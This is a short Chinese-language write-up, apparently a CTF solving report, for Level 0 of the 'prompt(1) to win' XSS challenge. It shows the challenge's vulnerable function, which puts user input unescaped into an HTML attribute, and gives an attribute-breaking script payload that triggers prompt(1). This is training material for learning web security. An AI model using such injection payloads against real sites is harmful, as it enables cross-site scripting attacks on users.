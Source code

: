 ## [[prompt(1) to win](http://prompt.ml)] [[Level 0 - warm up](http://prompt.ml/0)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3613/)]

------

## 题目

```javascript
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}
```

------

## 解题报告

水题。直接闭合双引号和标签即可注入。

payload : `"><script>prompt(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2000%20-%20warm%20up/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
